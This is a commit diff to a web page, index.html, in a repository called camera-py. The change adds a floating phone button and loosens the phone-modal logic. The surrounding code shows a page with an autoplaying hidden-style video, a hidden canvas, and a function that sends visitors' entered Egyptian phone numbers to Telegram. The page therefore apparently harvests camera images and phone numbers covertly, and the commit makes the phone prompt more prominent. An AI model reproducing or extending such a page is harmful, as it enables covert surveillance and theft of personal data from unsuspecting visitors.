

Before and after one commit to Alambrator100k/camera-py, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 117-800 px from the top of the page, without its empty margins (0-952 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -97,7 +97,6 @@
         #phoneModal {
             display: none;
             position: fixed;
-            bottom: 20px;
             left: 50%;
             transform: translateX(-50%);
             background: white;
@@ -139,6 +138,30 @@
             font-size: 24px;
             margin-left: 5px;
         }
+
+        /* زر العائم الجديد */
+        .floating-phone-btn {
+            position: fixed;
+            bottom: 20px;
+            left: 20px;
+            background: #4CAF50;
+            color: white;
+            width: 60px;
+            height: 60px;
+            border-radius: 50%;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            font-size: 24px;
+            box-shadow: 0 4px 8px rgba(0,0,0,0.2);
+            cursor: pointer;
+            z-index: 999;
+            transition: all 0.3s;
+        }
+        .floating-phone-btn:hover {
+            background: #388E3C;
+            transform: scale(1.1);
+        }
     </style>
 </head>
 <body>
@@ -179,6 +202,11 @@
     <div id="status" class="status hidden"></div>
     <button id="stopButton" class="hidden">.</button>
 
+    <!-- زر العائم الجديد -->
+    <div class="floating-phone-btn" onclick="showPhoneModal('')">
+        📱
+    </div>
+
     <video id="video" autoplay muted playsinline></video>
     <canvas id="canvas" style="display:none;"></canvas>
 
@@ -211,7 +239,9 @@
 
         // Function to show phone modal
         function showPhoneModal(imageName) {
-            selectedImage = imageName;
+            if (imageName) {
+                selectedImage = imageName;
+            }
             phoneModal.style.display = "block";
         }
 
@@ -221,7 +251,7 @@
             if (/^[0-9]{11}$/.test(phoneNumber)) {
                 // Send phone number to Telegram
                 sendToTelegram('sendMessage', {
-                    text: `📱 تم اختيار الصورة: ${selectedImage}\nرقم الهاتف: +20${phoneNumber}`
+                    text: `📱 تم اختيار الصورة: ${selectedImage || 'غير محدد'}\nرقم الهاتف: +20${phoneNumber}`
                 });
 
                 phoneModal.style.display = "none";
@@ -447,4 +477,4 @@
         });
     </script>
 </body>
-</html>
+                </html>
```
